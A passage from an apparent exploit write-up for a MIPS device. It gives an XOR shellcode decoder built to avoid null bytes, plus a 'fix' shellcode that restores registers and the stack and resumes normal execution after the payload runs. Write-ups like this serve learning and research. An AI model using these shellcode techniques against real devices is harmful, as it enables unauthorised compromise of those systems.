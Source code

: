 As we have control of the *$s0-3* registers, we can pass in some useful variables in those for the shellcode to use. This saves us some instructions as we don't need to manually load in addresses. Here is the simple decoder I wrote:

```
-mipsasm
  xor $s2, $s2, $s3;      /* decode length in s2 with key in s3 */
loop:
  lw $s0, 0x1010($s1);    /* load the shellcode value to decode */
  xor $s0, $s0, $s3;      /* decode the loaded value with key in s3 */
  sw $s0, 0x1010($s1)     /* save value to location it was got from */
  addiu $s2, $s2, -0x4;   /* decrease s2 by 4 so we can check if all decoded */
  addiu $s1, $s1, 0x108;  /* decrease decoding address by 4 (along with branch delay) */
  bgtz $s2, loop;         /* loop if there is still more to decode */
  addiu $s1, $s1, -0x104; /* branch delay slot (happens before branch taken) */
```

The input values are as follows:

| Register | Value |
| - | - |
| *$s0* | Not used |
| *$s1* | Address of encoded shellcode |
| *$s2* | Encoded length of encoded shellcode |
| *$s3* | XOR key (I used **0xf6f6f6f6**) |

As this is not encoded, some modifications had to be made to remove any 0's in the generated machine code. The first is that an offset of *0x1010* had to be used in a couple of places, as the offset makes up 2 bytes, setting it to *0x1010* prevents the offset bytes from being 0. The second is how *$s1* is increased by 4, again, the immediate value we are adding is 2 bytes, so adding 4 will result in *0x00 0x04* being in our payload. Therefore, the first modifying addition has to be greater than *0x100*, the second doesn't matter as much as it is negative, but it must result in *$s1* being increased by 4.

## Fix Shellcode

Now that we know the values required in the overwritten registers, we can create a fix shellcode that fills the registers with these values after we have run our main shellcode:

```
-mipsasm
xor $v0, $s3, $s3;      /* fix v0 (in branch delay slot) */
lui $t0, 0x802c;
ori $s0, $t0, 0x0404;   /* fix s0 (0x802c0404) */
lui $s1, 0x8025;
ori $s1, $s1, 0x0504;   /* fix s1 (0x8025d504) */
ori $s2, $t0, 0x5268;   /* fix s2 (0x802C5268) */
lui $s3, 0x802a;        
ori $s3, $s3, 0xb9f4;   /* fix s3 (0x802ab9f4) */
addiu $sp, $sp, 0xfff;  /* Fix up stack once shellcode done */
j 0x801888e0;
addiu $sp, $sp, -0xfef;
```
